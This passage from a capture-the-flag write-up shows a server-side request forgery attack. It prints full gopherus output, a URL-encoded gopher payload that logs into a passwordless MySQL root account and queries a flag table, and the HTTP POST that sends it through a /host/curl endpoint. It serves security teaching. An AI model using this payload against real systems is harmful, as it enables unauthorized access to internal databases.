 ```
</html>
```

Since the `root` user had no password, we can generate a gopher payload to perform an
interactionless login to the mysql backend with gopherus and perform the `select * from ctf.flag`
SQL query.

```console
$ python2 gopherus.py --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

        author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: root
Give query to execute: select * from ctf.flag;

Your gopher link is ready to do SSRF :

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%18%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%63%74%66%2e%66%6c%61%67%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```

Sending this payload through the `/host/curl` endpoint gave us our flag.

```
POST /host/curl HTTP/1.1
Host: 176.32.76.86:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 632
Origin: http://176.32.76.86
Connection: close
Referer: http://176.32.76.86/

{
  "host": "gopher://mysql:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%18%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%63%74%66%2e%66%6c%61%67%3b%01%00%00%00%01"
}
```
